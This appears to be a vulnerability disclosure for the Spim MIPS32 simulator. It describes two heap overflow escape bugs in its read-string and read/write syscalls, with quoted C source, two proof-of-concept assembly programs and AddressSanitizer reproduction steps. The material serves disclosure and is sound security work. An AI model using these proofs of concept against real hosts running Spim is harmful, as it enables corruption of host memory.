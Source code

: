 ### 1. Description

Spim is a self-contained simulator that runs MIPS32 programs. It reads and executes assembly language programs written for this processor. Spim also provides a simple debugger and a minimal set of operating system services. Spim does not execute binary (compiled) programs.

We have discovered two escape vulnerabilities in the Spim simulator, which allow attackers to corrupt the host machine's memory through heap overflow.

Project Location: [https://sourceforge.net/p/spimsimulator/code/HEAD/tree/](https://sourceforge.net/p/spimsimulator/code/HEAD/tree/)  
Affected Versions: <= 9.1.24

### 2. Analysis

The Spim simulator creates the virtual machine's memory during startup via the `make_memory` function, allocating memory for segments such as `text_seg`, `data_seg`, and `stack_seg`.

```c
// spim-9.1.24:/CPU/spim-utils.cpp:116
void make_memory(int text_size, int data_size, int data_limit, int stack_size,
                 int stack_limit, int k_text_size, int k_data_size,
                 int k_data_limit) {
  if (text_seg == NULL)
    text_seg = (instruction **)xmalloc(BYTES_TO_INST(text_size));
  else {
    free_instructions(text_seg, (text_top - TEXT_BOT) / BYTES_PER_WORD);
    text_seg = (instruction **)realloc(text_seg, BYTES_TO_INST(text_size));
  }
  ...
  data_size = ROUND_UP(data_size, BYTES_PER_WORD); /* Keep word aligned */
  if (data_seg == NULL)
    data_seg = (mem_word *)xmalloc(data_size);
  else
    data_seg = (mem_word *)realloc(data_seg, data_size);
  ...
  stack_size = ROUND_UP(stack_size, BYTES_PER_WORD); /* Keep word aligned */
  if (stack_seg == NULL)
    stack_seg = (mem_word *)xmalloc(stack_size);
  else
    stack_seg = (mem_word *)realloc(stack_seg, stack_size);
...
}
```

We can use a diagram to illustrate the memory mapping between the virtual machine and the host machine.

<div align="center">
<img src="asserts/vm.png" alt="Description" style="max-width:70%; height:auto;"
height="300">
</div>

The virtual machine's memory access is translated to the host machine's address space via the `mem_reference` function.

```c
void *mem_reference(mem_addr addr) {
  if ((addr >= TEXT_BOT) && (addr < text_top))
    return addr - TEXT_BOT + (char *)text_seg;
  else if ((addr >= DATA_BOT) && (addr < data_top))
    return addr - DATA_BOT + (char *)data_seg;
  else if ((addr >= stack_bot) && (addr < STACK_TOP))
    return addr - stack_bot + (char *)stack_seg;
  else if ((addr >= K_TEXT_BOT) && (addr < k_text_top))
    return addr - K_TEXT_BOT + (char *)k_text_seg;
  else if ((addr >= K_DATA_BOT) && (addr < k_data_top))
    return addr - K_DATA_BOT + (char *)k_data_seg;
  else {
    run_error("Memory address out of bounds\n");
    return NULL;
  }
}
```

### BUG1: Out-of-Bounds Write in `read_input` Function

The Spim simulator implements 17 system calls for the MIPS architecture, including basic I/O, memory expansion, program exit, file opening, and reading/writing.

```c
// spim-9.1.24:/CPU/syscall.cpp:101
int do_syscall() {
#ifdef _WIN32
  windowsParameterHandlingControl(0);
#endif

  /* Syscalls for the source-language version of SPIM.  These are easier to
     use than the real syscall and are portable to non-MIPS operating
     systems. */

  switch (R[REG_V0]) {
    ...
    case READ_STRING_SYSCALL: {
      read_input((char*)mem_reference(R[REG_A0]), R[REG_A1]);
      data_modified = true;
      break;
    }
    ...
  }
}
```

We analyzed the `READ_STRING_SYSCALL` system call, which takes two parameters: the `A0` register specifies the starting address in memory to write to, and the `A1` register specifies the length of the write. The vulnerability arises because there is no boundary check on the memory write, leading to a memory overflow. The overflow can corrupt the host machine's memory. We provide `poc.asm` and illustrate the vulnerability with the following diagram.

<div align="center">
<img src="asserts/overlap1.png" alt="Description" style="max-width:70%; height:auto;"
height="300">
</div>

- poc.asm

```asm
.data
msg:   .asciiz "proof of concept of **READ_STRING_SYSCALL** memory overflow\n"

.text
.globl main
main:   
        li  $v0, 4
        la  $a0, msg
        syscall          # print message

        li  $v0, 8
        lui $a0, 0x7fff
        ori $a0, 0xfffc  # set A0 0x7fff (0x80000000 - 4)
        li  $a1, 0x8     # set A1 8
        syscall          # read_input(0x80000000-4, 8)
```

- Reproduction Steps

```bash
(reproduce) $ svn checkout https://svn.code.sf.net/p/spimsimulator/code/ spimsimulator
(reproduce) $ cd spimsimulator/spim/
(reproduce) $ LDFLAGS=-fsanitize=address CXXFLAGS=-fsanitize=address make
(reproduce) $ printf 'ABCDE' \
              | ./spim -exception_file ../CPU/exceptions.s ../../poc1.asm
```

![](asserts/poc1.png)

### BUG2: Bypass Check in `READ_SYSCALL` and `WRITE_SYSCALL` Leading to Out-of-Bounds Read/Write

This vulnerability occurs in the `READ_SYSCALL` and `WRITE_SYSCALL` functions. Before performing memory read/write operations, the code checks the validity of the memory segment's end address via `(void)mem_reference(R[REG_A1] + R[REG_A2] - 1);`. However, this check is flawed.

```c
int do_syscall() {

  switch (R[REG_V0]) {
    ...
    case READ_SYSCALL: {
      /* Test if address is valid */
      (void)mem_reference(R[REG_A1] + R[REG_A2] - 1);
      R[REG_RES] = read(R[REG_A0], mem_reference(R[REG_A1]), R[REG_A2]);
      data_modified = true;
      break;
    }

    case WRITE_SYSCALL: {
      /* Test if address is valid */
      (void)mem_reference(R[REG_A1] + R[REG_A2] - 1);
      R[REG_RES] = write(R[REG_A0], mem_reference(R[REG_A1]), R[REG_A2]);
      break;
    }
    ...
  }

}
```

We can illustrate this vulnerability with the following diagram. An attacker can set the starting address of the read/write operation to a valid address in the virtual machine's memory and the end address to another valid address, but the starting and ending addresses are in different memory segments, causing an overflow into the host machine's memory.

<div align="center">
<img src="asserts/overlap2.png" alt="Description" style="max-width:70%; height:auto;"
height="300">
</div>

- poc2.asm

```asm
.data
msg:   .asciiz "proof of concept of **WRITE_SYSCALL** and **READ_SYSCALL**   memory overflow\n"

.text
.globl main
main:   
        li  $v0, 4
        la  $a0, msg
        syscall          # print message

        li  $v0, 14      # READ_SYSCALL
        li  $a0, 0       # stdin
        lui $a1, 0x7fff
        ori $a1, 0xfffc  # set A2 0x7ffffffc (0x80000000 - 4)
        li  $a2, 0x8     # set A1 8          (0x80000000 + 4)
        syscall          # read(0, 0x80000000-4, 8)
```

- Reproduction Steps

```bash
(reproduce) $ svn checkout https://svn.code.sf.net/p/spimsimulator/code/ spimsimulator
(reproduce) $ cd spimsimulator/spim/
(reproduce) $ LDFLAGS=-fsanitize=address CXXFLAGS=-fsanitize=address make
(reproduce) $ printf 'ABCDE' \
              | ./spim -exception_file ../CPU/exceptions.s ../../poc2.asm
```

![](asserts/poc2.png)

